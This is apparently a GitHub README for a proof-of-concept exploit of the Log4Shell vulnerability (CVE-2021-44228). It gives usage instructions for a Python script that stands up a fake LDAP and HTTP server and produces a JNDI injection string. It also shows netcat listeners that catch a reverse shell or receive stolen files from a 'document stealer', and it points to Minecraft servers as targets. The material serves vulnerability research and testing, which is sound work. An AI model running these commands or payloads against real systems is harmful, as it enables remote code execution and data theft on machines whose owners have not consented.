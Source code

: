 # log4j-shell-poc
A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability.

Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository there is an example vulnerable application and proof-of-concept (POC) exploit of it.


Proof-of-concept (POC)
----------------------

As a PoC there is a python file that automates the process. 


#### Requirements:
```bash
pip install -r requirements.txt
```


#### Usage:

* Start a netcat listener to accept reverse shell connection.<br>
```bash
$ nc -lvnp 9001 # For remote shell
$ nc -lvnp 9001 > stolen-data.zip # For document stealer
```


* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.

```bash
$ python3 poc.py --userip >>HOST_IP<< --webport 8000 --lport 9001 --payload >>/PATH/TO/PAYLOAD<<

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.


Vulnerable application
--------------------------

Any java application that uses the vulnrable version of log4j would work, I use a Minecraft server, version 1.8-1.18.0 are all vulnrable. 

Old versions of the server can be donwloaded in the official Minecraft launcher or at [MCVersions.net](http://www.mcversions.net)


Getting the Java version.
--------------------------------------

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>
**Note:** Make sure to extract the jdk folder into this repository with the same name in order for it to work.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).
